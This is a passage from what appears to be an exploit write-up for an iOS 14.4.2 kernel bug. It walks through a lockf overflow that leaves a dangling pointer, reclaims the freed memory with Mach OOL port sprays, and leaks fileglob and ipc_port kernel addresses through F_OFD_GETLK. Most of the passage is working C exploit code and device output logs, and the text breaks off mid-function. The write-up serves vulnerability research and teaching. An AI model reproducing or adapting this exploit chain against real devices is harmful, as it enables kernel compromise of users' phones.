        printf("[STAGE1.2] v_lockf(B)->lf_start = %lld, lf_end = %lld\n", lf_start, lf_end);
        lf_head = tfp0_kread64(urandom_v_lockf + off_lockf_lf_head);
        lf_next = tfp0_kread64(urandom_v_lockf + off_lockf_lf_next);
        printf("[STAGE1.2] v_lockf(B)->lf_head = 0x%llX, lf_next = 0x%llX\n", lf_head, lf_next);
    } else {
        printf("[STAGE1.2] v_lockf(B) should be exists!\n"); while(1) {};
    }
    printf("======================== \n");
#endif

	if (ofd_set_lock(urandom_fd, F_RDLCK, (off_t)15, (off_t)10) < 0) {
        return -1;
    }
#if ENABLE_HELPER 
    urandom_v_lockf = tfp0_kread64(urandom_vnode + off_vnode_v_lockf);
    printf("[STAGE1.3] v_lockf(A) = 0x%llX\n", urandom_v_lockf);
    lf_start = tfp0_kread64(urandom_v_lockf + off_lockf_lf_start);
    lf_end = tfp0_kread64(urandom_v_lockf + off_lockf_lf_end);
    printf("[STAGE1.3] v_lockf(A)->lf_start = %lld, lf_end = %lld\n", lf_start, lf_end);
    lf_head = tfp0_kread64(urandom_v_lockf + off_lockf_lf_head);
    lf_next = tfp0_kread64(urandom_v_lockf + off_lockf_lf_next);
    printf("[STAGE1.3] v_lockf(A)->lf_head = 0x%llX, lf_next = 0x%llX\n", lf_head, lf_next);

    if(lf_next) {
        urandom_v_lockf = lf_next;
        printf("[STAGE1.3] v_lockf(DANGLING C) = 0x%llX\n", urandom_v_lockf);
        printf("[STAGE1.3] Since C is freed, however, the contents of C's memory are no longer guaranteed, leaving a dangling pointer!\n");
        const int sizeof_lockf = 0x60;
        tfp0_khexdump(urandom_v_lockf, sizeof_lockf);
        // lf_start = tfp0_kread64(urandom_v_lockf + off_lockf_lf_start);
        // lf_end = tfp0_kread64(urandom_v_lockf + off_lockf_lf_end);
        // printf("[STAGE1.3] v_lockf(DANGLING C)->lf_start = %lld, lf_end = %lld\n", lf_start, lf_end);
        // lf_head = tfp0_kread64(urandom_v_lockf + off_lockf_lf_head);
        // lf_next = tfp0_kread64(urandom_v_lockf + off_lockf_lf_next);
        // printf("[STAGE1.3] v_lockf(DANGLING C)->lf_head = 0x%llX, lf_next = 0x%llX\n", lf_head, lf_next);
    } else {
        printf("[STAGE1.3] v_lockf(DANGLING C) should be exists!\n"); while(1) {};
    }
    printf("======================== \n");
#endif
...
}
```

The execution results are as follows. 

In the lock list, the end value of (B), which was INT64_MAX, was changed to INT64_MIN by the overflow vulnerability, 

and finally, (C), which is pointed to by A's lf_next pointer, was freed.

```c
iPhone-8--1442:~ root# pendulum
[i] offsets selected for iOS 14.4.2
tfp0: 0xe03
tfp0_get_kbase ret: 0, tfp0_kbase: 0xfffffff01c0a0000, tfp0_kslide: 0x1509c000
[i] opened urandom fd: 6
[STAGE1] urandom_vnode = 0xFFFFFFE19D69B450
[STAGE1] v_lockf(A) = 0xFFFFFFE4CDEDA040
[STAGE1] v_lockf(A)->lf_start = 10, lf_end = 19
[STAGE1] v_lockf(A)->lf_head = 0xFFFFFFE19D69B518, lf_next = 0x0
========================
[STAGE1.1] v_lockf(A) = 0xFFFFFFE4CDEDA040
[STAGE1.1] v_lockf(A)->lf_start = 10, lf_end = 19
[STAGE1.1] v_lockf(A)->lf_head = 0xFFFFFFE19D69B518, lf_next = 0xFFFFFFE4CDEBFBA0
[STAGE1.1] v_lockf(B) = 0xFFFFFFE4CDEBFBA0
[STAGE1.1] v_lockf(B)->lf_start = 9223372036854775807, lf_end = -1
[STAGE1.1] v_lockf(B)->lf_head = 0xFFFFFFE19D69B518, lf_next = 0x0
========================
[STAGE1.2] v_lockf(A) = 0xFFFFFFE4CDEDA040
[STAGE1.2] v_lockf(A)->lf_start = 10, lf_end = 19
[STAGE1.2] v_lockf(A)->lf_head = 0xFFFFFFE19D69B518, lf_next = 0xFFFFFFE4CDEBFBA0
[STAGE1.2] v_lockf(B) = 0xFFFFFFE4CDEBFBA0
[STAGE1.2] v_lockf(B)->lf_start = -9223372036854775808, lf_end = -1
[STAGE1.2] v_lockf(B)->lf_head = 0xFFFFFFE19D69B518, lf_next = 0x0
========================
[STAGE1.3] v_lockf(A) = 0xFFFFFFE4CDEDA040
[STAGE1.3] v_lockf(A)->lf_start = 10, lf_end = 14
[STAGE1.3] v_lockf(A)->lf_head = 0xFFFFFFE19D69B518, lf_next = 0xFFFFFFE4CDED8D20
[STAGE1.3] v_lockf(DANGLING C) = 0xFFFFFFE4CDED8D20
[STAGE1.3] Since C is freed, however, the contents of C's memory are no longer guaranteed, leaving a dangling pointer!
[0xffffffe4cded8d20+0x000] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffffe4cded8d20+0x010] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffffe4cded8d20+0x020] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffffe4cded8d20+0x030] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffffe4cded8d20+0x040] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffffe4cded8d20+0x050] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
========================
```

### 2. Leaking the fileglob Address

Next, to reclaim the C space, 12 ports are placed in a Mach OOL ports descriptor so that it occupies the space.

The fileport is inserted, but as an exception, only `ports[2]` is given the `MACH_PORT_DEAD` value of -1.

```c
 // 00000000000072E4
kern_return_t spray_default_kalloc_ool_ports_with_dead(mach_port_t where, mach_port_t target_port) {
    const int port_cnt = 12;
    mach_port_t* ports = malloc(sizeof(mach_port_t) * port_cnt);
    for (int i = 0; i < port_cnt; i++) {
        ports[i] = target_port;
    }
    ports[2] = MACH_PORT_DEAD;

    struct default_msg* message = (struct default_msg*)calloc(1, sizeof(struct default_msg));
    message->header.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    message->header.msgh_size = sizeof(struct default_msg);
    message->header.msgh_remote_port = where;
    message->body.msgh_descriptor_count = 1;
    message->descriptor.address = ports;
    message->descriptor.deallocate = false;
    message->descriptor.copy = MACH_MSG_PHYSICAL_COPY;
    message->descriptor.disposition = MACH_MSG_TYPE_COPY_SEND;
    message->descriptor.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    message->descriptor.count = port_cnt;

    kern_return_t kr = mach_msg(
      &message->header,
      MACH_SEND_MSG | MACH_SEND_INTERRUPT | MACH_SEND_NOIMPORTANCE,
      message->header.msgh_size,
      0,
      MACH_PORT_NULL,
      MACH_MSG_TIMEOUT_NONE,
      MACH_PORT_NULL);

    free(message);
    free(ports);

    if (kr) {
        printf("[-] Failed to send OOL message: 0x%x (%s)\n", kr, mach_error_string(kr));
        return KERN_FAILURE;
    }
    return KERN_SUCCESS;
}
 

int main(void)
{
...
    // create urandom file port
    mach_port_name_t fileport_name = MACH_PORT_NULL;
    fileport_makeport(urandom_fd, &fileport_name);
... 
    // Reoccupy with an array of 12 Mach OOL ports
    // userspace names: 12 * sizeof(mach_port_name_t) = 0x30
    // XNU objects:     12 * sizeof(ipc_object_t)      = 0x60
    // fake struct lockf

    // (lldb) p/x offsetof(lockf, lf_end)
    // (unsigned long) 0x0000000000000010

    /*
    +0x08 lf_start = target ipc_port *
    +0x10 lf_end   = -1
    +0x18 lf_id    = target ipc_port *
    ...
    +0x58 lf_owner = target ipc_port *
    */
    spray_default_kalloc_ool_ports_with_dead(reply_port, fileport_name);
...
}
```

Because the size of the `lockf` structure is 0x60 and it is of the KHEAP_DEFAULT type, it belongs to the `default.kalloc.96` zone.



If trace through the kernel starting from the userland `spray_default_kalloc_ool_ports_with_dead` function,

`mach_msg_overwrite_trap` 
→ `ipc_kmsg_copyin` 
→ `ipc_kmsg_copyin_body` 
→ `ipc_kmsg_copyin_ool_ports_descriptor`


In `ipc_kmsg_copyin_ool_ports_descriptor`, a 96-byte descriptor array is allocated by the `data = kalloc(ports_length);` code.

The reason is that the size of mach_port_t is 8 bytes and 12 ports were inserted, so  12*8=96.

```c
if (os_mul_overflow(count, sizeof(mach_port_t), &ports_length)) {
		*mr = MACH_SEND_TOO_LARGE;
		return NULL;
	}
```

As the descriptor array is processed in `ipc_object_copyin`, 

`ipc_object_copyin` → `ipc_right_lookup_write` → `ipc_entry_lookup`

In other words, the userland fileport is converted into an address of the kernel's ipc port* type by the kernel's `ipc_entry_lookup` function.





In fact, checking the kernel dump in the right-hand screen window shows that C in the locklist is occupied by the descriptor array data.
Except for one(MACH_PORT_DEAD), all values are 0xffffffe19c400690, that is, they consist of the kernel addresses of the fileport's ipc pointer.



Going back slightly to an earlier step, let us briefly examine `fileport_makeport`, which converts the userland file descriptor fd into a fileport,

```c
mach_port_name_t fileport_name = MACH_PORT_NULL;
fileport_makeport(urandom_fd, &fileport_name);
```

`sys_fileport_makeport`  
→ `fileport_alloc`  
→  `ipc_kobject_alloc_port`  
→ `ipc_kobject_init_port` 
→ During the conversion to an ipc port in `ipc_kobject_set_atomically`, kobject(+0x68 offset) is set to the fileglob pointer.

```c
(lldb) p/x offsetof(ipc_port, kdata.kobject)
(unsigned long) 0x0000000000000068
```

```c
// xnu-7195.50.7.100.1/osfmk/kern/ipc_misc.c:52

ipc_port_t
fileport_alloc(struct fileglob *fg)
{
	return ipc_kobject_alloc_port((ipc_kobject_t)fg, IKOT_FILEPORT,
	           IPC_KOBJECT_ALLOC_MAKE_SEND | IPC_KOBJECT_ALLOC_NSREQUEST);
}
```

```c
// xnu-7195.50.7.100.1/osfmk/kern/ipc_kobject.c:740
ipc_port_t
ipc_kobject_alloc_port(
	ipc_kobject_t           kobject,
	ipc_kobject_type_t      type,
	ipc_kobject_alloc_options_t     options)
{
	ipc_port_t port = ipc_port_alloc_kernel();

	if (port == IP_NULL) {
		panic("ipc_kobject_alloc_port(): failed to allocate port");
	}

	ipc_kobject_init_port(port, kobject, type, options);
	return port;
}

// xnu-7195.50.7.100.1/osfmk/kern/ipc_kobject.c:705
static inline void
ipc_kobject_init_port(
	ipc_port_t port,
	ipc_kobject_t kobject,
	ipc_kobject_type_t type,
	ipc_kobject_alloc_options_t options)
{
	ipc_kobject_set_atomically(port, kobject, type);
	...
}

// xnu-7195.50.7.100.1/osfmk/kern/ipc_kobject.c:676
void
ipc_kobject_set_atomically(
	ipc_port_t                      port,
	ipc_kobject_t           kobject,
	ipc_kobject_type_t      type)
{
	assert(type == IKOT_NONE || ip_active(port));
#if     MACH_ASSERT
	port->ip_spares[2] = (port->ip_object.io_bits & IO_BITS_KOTYPE);
#endif  /* MACH_ASSERT */
	port->ip_object.io_bits = (port->ip_object.io_bits & ~IO_BITS_KOTYPE) | type;
	if (ip_is_kolabeled(port)) {
		ipc_kobject_label_t labelp = port->ip_kolabel;
		labelp->ikol_kobject = kobject;
	} else {
		port->ip_kobject = kobject;
	}
	if (type != IKOT_NONE) {
		/* Once set, this bit can never be unset */
		port->ip_object.io_bits |= IO_BITS_KOBJECT;
	}
}
```

To leak the fileglob pointer, the OOL array that was just allocated with 96 bytes became a fake `lockf`. When `ofd_get_lock` is performed, it will still believe that the OOL array is a `struct lockf`.

```c
int ofd_get_lock(int fd, off_t start, off_t length, struct flock *lock_request)
{    
    *lock_request = (struct flock) {
        .l_start = start,
        .l_len = length,
        .l_pid = 0,
        .l_type = F_WRLCK,
        .l_whence = SEEK_SET,
    };

    return fcntl(fd, F_OFD_GETLK, lock_request);
}

int main(void) {

/*
    +0x08 lf_start = target ipc_port *
    +0x10 lf_end   = -1
    +0x18 lf_id    = target ipc_port *
    ...
    +0x58 lf_owner = target ipc_port *
    */
// ...
    // 000000000000527C
    // Recover the file_glob kptr by leaking two values (fl.l_start, fl.l_pid) using F_OFD_GETLK
    // fl.l_start = fileport ipc_port *
    // fl.l_pid = proc_pid((proc *)fileport_ipc_port)
    //          = low32(fileport_ipc_port->ip_kobject)
    //          = low32(/dev/urandom fileglob *)
    struct flock* fl = calloc(1, sizeof(struct flock));
    ofd_get_lock(urandom_fd, 0, 0, fl);
    uint64_t fileglob_kptr = (fl->l_start & 0xFFFFFFFF00000000) | (fl->l_pid & 0xFFFFFFFF);
    printf("[i] Leaked fileglob kptr = 0x%llX\n", fileglob_kptr);
// ...
}
```

When `ofd_get_lock` is performed, `sys_fcntl_nocancel` first copies in the `struct flock`, calls `lf_advlock`, and copies `fl` out to user space as-is.

Through `lf_advlock`, 2 values can be leaked: `fl.l_start`, which contains the fileport's ipc pointer address, and `fl.l_pid`, which contains the lower 32 bits of fileglob.

By combining those 2 values, the complete fileglob pointer is obtained.



### 3. Allocating 32 ipc ports with a qlimit of 0x400

This appears to be code written for a heap-grooming mechanism that pins failed `lockf` address candidates one by one with 0x60-sized OOL arrays. There are 0 `queued ipc_kmsg` objects and 0 `kalloc.96`-related OOL arrays, and only 32 ipc ports are allocated; it seems that its actual role will be easier to understand after examining `prepare_socket_lockf_pair()` in more detail.

```c
kern_return_t create_minimal_thread_message_channel(struct minimal_thread_message_channel *channel)
{
    /*
     * This is only a reusable userspace template. No kernel 0x60 allocation
     * exists until this complex message is actually sent.
     */
    channel->ool_template.header.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, MACH_MSG_TYPE_MAKE_SEND_ONCE);
    channel->ool_template.header.msgh_size = sizeof(struct default_msg);
    channel->ool_template.header.msgh_id = 1;
    channel->ool_template.body.msgh_descriptor_count = 1;
    channel->ool_template.descriptor.address = channel->ool_port_names;
    channel->ool_template.descriptor.deallocate = false;
    channel->ool_template.descriptor.copy = MACH_MSG_PHYSICAL_COPY;
    channel->ool_template.descriptor.disposition = MACH_MSG_TYPE_COPY_SEND;
    channel->ool_template.descriptor.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    channel->ool_template.descriptor.count = THREAD_CHANNEL_OOL_PORT_COUNT;

    for (unsigned int i = 0; i < THREAD_CHANNEL_PORT_COUNT; i++) {
        mach_port_limits_t limits = {
            .mpl_qlimit = THREAD_CHANNEL_QUEUE_LIMIT,
        };

        kern_return_t kr = mach_port_allocate(
            mach_task_self(),
            MACH_PORT_RIGHT_RECEIVE,
            &channel->receive_ports[i]);
        if (kr != KERN_SUCCESS) {
            destroy_minimal_thread_message_channel(channel);
            return kr;
        }

        channel->receive_port_count++;

        kr = mach_port_set_attributes(
            mach_task_self(),
            channel->receive_ports[i],
            MACH_PORT_LIMITS_INFO,
            (mach_port_info_t)&limits,
            MACH_PORT_LIMITS_INFO_COUNT);
        if (kr != KERN_SUCCESS) {
            destroy_minimal_thread_message_channel(channel);
            return kr;
        }
    }

    return KERN_SUCCESS;
}

int main(void) {
//...
    // Minimal create_default_thread_channel(ctx, 0x60, 0x8000).
    // This creates 32 receive ports with qlimit 0x400 and prepares one
    // 12-entry OOL-port template. It sends no messages at this stage.
    // The original descriptor-free 0x8000-message warm-up is intentionally
    // omitted because this reconstruction only adds channel creation.
    struct minimal_thread_message_channel thread_channel = {0};
    kr = create_minimal_thread_message_channel(&thread_channel);
    if (kr != KERN_SUCCESS) {
        printf("[-] failed to create thread-message channel: 0x%x (%s)\n",
            kr, mach_error_string(kr));
        return -1;
    }
    printf("[i] thread-message channel: %u ports, qlimit=0x%x, capacity=0x8000\n", thread_channel.receive_port_count, THREAD_CHANNEL_QUEUE_LIMIT);

#if ENABLE_HELPER
    printf("[STAGE3] %s:%d\n", __FUNCTION__, __LINE__);
    for (int i = 0; i < thread_channel.receive_port_count; i++) {
        uint32_t receive_port = thread_channel.receive_ports[i];
        uint64_t port = tfp0_find_port(receive_port);
        /*
        (lldb) p/x offsetof(ipc_port, ip_messages.data.port.messages.ikmq_base)
        (unsigned long) 0x0000000000000040
        (lldb) p/x offsetof(ipc_port, ip_messages.data.port.receiver_name)
        (unsigned long) 0x000000000000004c
        (lldb) p/x offsetof(ipc_port, ip_messages.data.port.msgcount)
        (unsigned long) 0x0000000000000050
        (lldb) p/x offsetof(ipc_port, data.receiver)
        (unsigned long) 0x0000000000000060
        */
        uint64_t ikmq_base = tfp0_kread64(receive_port + 0x40);
        uint32_t receiver_name = tfp0_kread64(receive_port + 0x4c);

        uint32_t queue_info = tfp0_kread32(port + 0x50);
        uint16_t msgcount = (uint16_t)(queue_info & 0xffff);
        uint16_t qlimit = (uint16_t)(queue_info >> 16);

        uint32_t qcontext = tfp0_kread32(port + 0x54);
        uint64_t receiver = tfp0_kread64(port + 0x60);
        // printf("[STAGE3] i=%u port=0x%llX ikmq_base=0x%llX receiver_name=0x%llX msgcount=0x%llX receiver=0x%llX\n", i, port, ikmq_base, receiver_name, msgcount, receiver);
        printf("[STAGE3] i=%d name=0x%X port=0x%llX ikmq_base=0x%llX receiver_name=0x%X msgcount=%u qlimit=0x%X qcontext=0x%X receiver=0x%llX\n",
                i, receive_port, port, ikmq_base, receiver_name, msgcount, qlimit, qcontext, receiver);
    }
    getchar();
#endif
//...
}
```

Execution results:

```c
[i] offsets selected for iOS 14.4.2
tfp0: 0xf03
tfp0_get_kbase ret: 0, tfp0_kbase: 0xfffffff01ba50000, tfp0_kslide: 0x14a4c000
[i] opened urandom fd: 6
[STAGE1] urandom_vnode = 0xFFFFFFE19D3D5930, urandom_fileglob = 0xFFFFFFE19FFF5920
[STAGE1] v_lockf(A) = 0xFFFFFFE4CDEBF5A0
[STAGE1] v_lockf(A)->lf_start = 10, lf_end = 19
[STAGE1] v_lockf(A)->lf_head = 0xFFFFFFE19D3D59F8, lf_next = 0x0
======================== 
[STAGE1.1] v_lockf(A) = 0xFFFFFFE4CDEBF5A0
[STAGE1.1] v_lockf(A)->lf_start = 10, lf_end = 19
[STAGE1.1] v_lockf(A)->lf_head = 0xFFFFFFE19D3D59F8, lf_next = 0xFFFFFFE4CDE788A0
[STAGE1.1] v_lockf(B) = 0xFFFFFFE4CDE788A0
[STAGE1.1] v_lockf(B)->lf_start = 9223372036854775807, lf_end = -1
[STAGE1.1] v_lockf(B)->lf_head = 0xFFFFFFE19D3D59F8, lf_next = 0x0
======================== 
[STAGE1.2] v_lockf(A) = 0xFFFFFFE4CDEBF5A0
[STAGE1.2] v_lockf(A)->lf_start = 10, lf_end = 19
[STAGE1.2] v_lockf(A)->lf_head = 0xFFFFFFE19D3D59F8, lf_next = 0xFFFFFFE4CDE788A0
[STAGE1.2] v_lockf(B) = 0xFFFFFFE4CDE788A0
[STAGE1.2] v_lockf(B)->lf_start = -9223372036854775808, lf_end = -1
[STAGE1.2] v_lockf(B)->lf_head = 0xFFFFFFE19D3D59F8, lf_next = 0x0
======================== 
[STAGE1.3] v_lockf(A) = 0xFFFFFFE4CDEBF5A0
[STAGE1.3] v_lockf(A)->lf_start = 10, lf_end = 14
[STAGE1.3] v_lockf(A)->lf_head = 0xFFFFFFE19D3D59F8, lf_next = 0xFFFFFFE4CDE8C960
[STAGE1.3] v_lockf(DANGLING C) = 0xFFFFFFE4CDE8C960
[STAGE1.3] Since C is freed, however, the contents of C's memory are no longer guaranteed, leaving a dangling pointer!
[0xffffffe4cde8c960+0x000] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffffe4cde8c960+0x010] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffffe4cde8c960+0x020] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffffe4cde8c960+0x030] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffffe4cde8c960+0x040] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
[0xffffffe4cde8c960+0x050] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................ 
======================== 
[STAGE2] Reoccupied with OOL ports allocation kaddr (KHEAP_DEFAULT/kalloc.96) = 0xFFFFFFE4CDE8C960
[STAGE2] tfp0_find_port(fileport_name) = 0xFFFFFFE19D318348
[i] Leaked fileglob kptr = 0xFFFFFFE19FFF5920
[i] thread-message channel: 32 ports, qlimit=0x400, capacity=0x8000
[STAGE3] main:1380
[STAGE3] i=0 name=0x2803 port=0xFFFFFFE19D87AB50 ikmq_base=0xFFFFFFE19D87AB50 receiver_name=0x9D87AB50 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=1 name=0x2703 port=0xFFFFFFE19E093E58 ikmq_base=0xFFFFFFE19E093E58 receiver_name=0x9E093E58 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=2 name=0x2603 port=0xFFFFFFE1A0161C38 ikmq_base=0xFFFFFFE1A0161C38 receiver_name=0xA0161C38 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=3 name=0x2503 port=0xFFFFFFE19FC98FC0 ikmq_base=0xFFFFFFE19FC98FC0 receiver_name=0x9FC98FC0 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=4 name=0x1803 port=0xFFFFFFE19E571B90 ikmq_base=0xFFFFFFE19E571B90 receiver_name=0x9E571B90 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=5 name=0x2403 port=0xFFFFFFE19FF25998 ikmq_base=0xFFFFFFE19FF25998 receiver_name=0x9FF25998 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=6 name=0x1903 port=0xFFFFFFE19EE09F80 ikmq_base=0xFFFFFFE19EE09F80 receiver_name=0x9EE09F80 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=7 name=0x2303 port=0xFFFFFFE19E572958 ikmq_base=0xFFFFFFE19E572958 receiver_name=0x9E572958 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=8 name=0x1A03 port=0xFFFFFFE19D5656F8 ikmq_base=0xFFFFFFE19D5656F8 receiver_name=0x9D5656F8 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=9 name=0x1B03 port=0xFFFFFFE19E550738 ikmq_base=0xFFFFFFE19E550738 receiver_name=0x9E550738 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=10 name=0x1C03 port=0xFFFFFFE19D7C3918 ikmq_base=0xFFFFFFE19D7C3918 receiver_name=0x9D7C3918 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=11 name=0x2203 port=0xFFFFFFE19FBF9068 ikmq_base=0xFFFFFFE19FBF9068 receiver_name=0x9FBF9068 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=12 name=0x1D03 port=0xFFFFFFE19E241A40 ikmq_base=0xFFFFFFE19E241A40 receiver_name=0x9E241A40 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=13 name=0x2103 port=0xFFFFFFE19EFB2178 ikmq_base=0xFFFFFFE19EFB2178 receiver_name=0x9EFB2178 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=14 name=0x1E03 port=0xFFFFFFE19FC6BDB0 ikmq_base=0xFFFFFFE19FC6BDB0 receiver_name=0x9FC6BDB0 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=15 name=0x1F03 port=0xFFFFFFE19E572610 ikmq_base=0xFFFFFFE19E572610 receiver_name=0x9E572610 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=16 name=0x2003 port=0xFFFFFFE19FF766B8 ikmq_base=0xFFFFFFE19FF766B8 receiver_name=0x9FF766B8 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=17 name=0x2A03 port=0xFFFFFFE19E114DC8 ikmq_base=0xFFFFFFE19E114DC8 receiver_name=0x9E114DC8 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=18 name=0x5403 port=0xFFFFFFE1A01ECD20 ikmq_base=0xFFFFFFE1A01ECD20 receiver_name=0xA01ECD20 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=19 name=0x5303 port=0xFFFFFFE19E21DAE8 ikmq_base=0xFFFFFFE19E21DAE8 receiver_name=0x9E21DAE8 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=20 name=0x2B03 port=0xFFFFFFE19EFB2FE8 ikmq_base=0xFFFFFFE19EFB2FE8 receiver_name=0x9EFB2FE8 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=21 name=0x2C03 port=0xFFFFFFE19D96BC60 ikmq_base=0xFFFFFFE19D96BC60 receiver_name=0x9D96BC60 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=22 name=0x2D03 port=0xFFFFFFE19FC691B8 ikmq_base=0xFFFFFFE19FC691B8 receiver_name=0x9FC691B8 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=23 name=0x2E03 port=0xFFFFFFE19FC4E4C0 ikmq_base=0xFFFFFFE19FC4E4C0 receiver_name=0x9FC4E4C0 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=24 name=0x2F03 port=0xFFFFFFE19E0CDAE8 ikmq_base=0xFFFFFFE19E0CDAE8 receiver_name=0x9E0CDAE8 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=25 name=0x5203 port=0xFFFFFFE19FC4F9C0 ikmq_base=0xFFFFFFE19FC4F9C0 receiver_name=0x9FC4F9C0 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=26 name=0x3003 port=0xFFFFFFE19D31BBB8 ikmq_base=0xFFFFFFE19D31BBB8 receiver_name=0x9D31BBB8 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=27 name=0x3103 port=0xFFFFFFE19FF25A40 ikmq_base=0xFFFFFFE19FF25A40 receiver_name=0x9FF25A40 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=28 name=0x5103 port=0xFFFFFFE19E1C0000 ikmq_base=0xFFFFFFE19E1C0000 receiver_name=0x9E1C0000 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=29 name=0x3203 port=0xFFFFFFE19DE43DB0 ikmq_base=0xFFFFFFE19DE43DB0 receiver_name=0x9DE43DB0 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=30 name=0x3303 port=0xFFFFFFE19FBF8930 ikmq_base=0xFFFFFFE19FBF8930 receiver_name=0x9FBF8930 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
[STAGE3] i=31 name=0x3403 port=0xFFFFFFE1A01EDF80 ikmq_base=0xFFFFFFE1A01EDF80 receiver_name=0xA01EDF80 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E58D2C0
```

### 4. Leak the `readpipe_ipc_port_kptr` address

Reoccupy the C space once more; this is similar to step 2.

Before reoccupying it, the C space must be freed; receiving the pending OOL message with `mach_msg` frees it.

```c
    // Free the OOL array, then reallocate to get readpipe fileport's ipc_port *
    // Receive the pending OOL message to free the OOL port array
    mach_msg_empty_rcv_t receive_message = {0};
    mach_msg(
    &receive_message.header,
    MACH_RCV_MSG | MACH_RCV_INTERRUPT,
    0,
    0,
    reply_port,
    MACH_MSG_TIMEOUT_NONE,
    MACH_PORT_NULL);
```

This is because, in the kernel, 

`mach_msg_overwrite_trap` 
→ `mach_msg_receive_results`
→ `msg_receive_error`
→ `ipc_kmsg_copyout_dest`
→ `ipc_kmsg_clean_body`

`ipc_kmsg_clean_body` ultimately performs kfree for each descriptor array.





This time, convert the pipe fd to a fileport and pass that port so that a 96-byte descriptor array is allocated. Then, from `ofd_get_lock`, obtain the returned `fl->lf_start` value to leak the ipc port address of the pipe fileport. 

This leak is needed to reach the kernel object of the secondary pipe while arbitrary read is not yet available; it is needed by the `first_read_address = readpipe_ipc_port_kptr + 0x68;` code used to implement the first read primitive, and it could also provide a link for finding the readpipe fileglob without the fd table.

```
readpipe ipc_port *
  → ip_kobject
  → readpipe fileglob *
  → fg_data
  → read-side struct pipe *
  → pipe_buffer.buffer
  → controllable pipe backing
```

```c
// 00000000000072E4
kern_return_t spray_default_kalloc_ool_ports_with_dead(mach_port_t where, mach_port_t target_port) {
    const int port_cnt = 12;
    mach_port_t* ports = malloc(sizeof(mach_port_t) * port_cnt);
    for (int i = 0; i < port_cnt; i++) {
        ports[i] = target_port;
    }
    ports[2] = MACH_PORT_DEAD;

    struct default_msg* message = (struct default_msg*)calloc(1, sizeof(struct default_msg));
    message->header.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    message->header.msgh_size = sizeof(struct default_msg);
